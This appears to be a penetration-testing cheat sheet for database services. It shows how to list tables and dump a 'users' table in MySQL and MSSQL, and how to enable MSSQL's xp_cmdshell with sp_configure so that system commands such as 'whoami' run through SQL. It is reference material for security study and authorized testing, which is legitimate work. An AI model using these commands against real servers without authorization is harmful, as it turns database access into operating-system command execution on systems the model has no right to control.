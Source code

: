 ### Show Tables 

```console
mysql> SHOW TABLES;
```

```console
1> SELECT table_name FROM database.INFORMATION_SCHEMA.TABLES
2> GO
```

### Select all Data from Table "users"

```console
mysql> SELECT * FROM users;
```

```console
1> SELECT * FROM users
2> go
```

## Explotation 

### XP\_CMDSHELL

MSSQL has a extended stored procedures called `xp_cmdshell` which allow us to execute system commands using SQL. Keep in mind the following about `xp_cmdshell`:
-  is a powerful feature and disabled by default, can be enabled and disabled by using the Policy-Based Management or by executing `sp_configure`
- operates synchronously, control is not returned to the caller until the command-shell command is completed

To execute commands using SQL syntax on MSSQL, use:
```console
1> xp_cmdshell 'whoami'
2> GO
```

If `xp_cmdshell` is not enabled, we can enable it, if we have the appropriate privileges, using the following command:
```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```
